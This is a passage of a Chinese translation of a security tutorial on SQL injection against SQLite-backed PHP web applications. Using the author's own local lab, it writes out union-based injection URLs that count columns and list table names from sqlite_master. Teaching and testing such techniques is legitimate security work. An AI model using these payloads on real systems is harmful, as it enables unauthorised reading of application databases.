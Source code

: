 基于SQLite数据库的Web应用程序注入指南
58300稿费：0
https://p0.ssl.qhimg.com/t015446e15d788fd96e.jpg
翻译：scriptkid

预估稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

概述

SQL注入又称hacking之母，是造成网络世界巨大损失而臭名昭著的漏洞之一，研究人员已经发布了许多关于不同SQL服务的不同攻击技巧相关文章。对于MSSQL,MySQL和ORACLE数据库来说，SQL注入的payload一抓一大把，你可以在web应用中利用SQL注入漏洞进行攻击，如果其中任何一种数据库被用来作为后端数据库。SQLite就比较不那么出名了，因此相关的SQL注入payload就比较少，如果你想攻击后端数据库为SQLite的，那你就得去学习SQLite相关功能，然后构造出你自己的payload。因此，本文中我们将探讨两种关于SQLite的SQL注入攻击技巧。

1、基于联合查询的SQL注入（数字型或字符型）

2、SQL盲注

实验环境

为了实现基于SQLite的SQL注入，我们需要以下环境：

1、web服务器（这里是apache）

2、PHP环境

3、使用SQLite数据库的存在漏洞的web应用，这里有一个我自己开发的应用

测试应用包里包含PHP代码和SQLite数据库(ica-lab.db).数据库共有两个表单：Info和Users

实施攻击

1、基于联合查询的SQL注入

基于联合查询的SQL注入并不难，SQL查询直接去数据库中获取表名以及列名。让我们来试试基于联合查询的SQL注入(数字型)，注入点：

http://127.0.0.1/sqlite-lab/index.php?snumber=1

在尝试order by子句后，我们可以发现列数为5，Inject URL：

http://127.0.0.1/sqlite-lab/index.php?snumber=1 union select 1,2,3,4,5--
http://p3.qhimg.com/t01e0c4b445cd9bd209.png
列2，3，4的数据在web页面上被打印出来了，因此我们需要利用这三个列的其中一个或多个。

获取表名

在SQLite中，为了猜解表名我们需要运行以下查询：

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
在漏洞应用程序里，如果我们构造像以下这样的链接，web应用将会在2这个位置显示所有表名：

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(tbl_name),3,4,5 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
http://p1.qhimg.com/t016aec1ee606c0a25b.png
为了让表名单独显示，我们可以使用带offset的limit子句，就像这样：

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,tbl_name,3,4,5 FROM sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'' limit 2 offset 1
limit后面接的数字是为了获取行数，而offest后面接的数字则为第一次返回结果中的删除数。在上述查询中，limit提取了两个表名，然后哦第一个被offset删除掉，所以我们获得了第二个表名。类似的，为了获取第三个表名，只需要改变limit和offset为3跟2即可，即limit 3 offset 2.
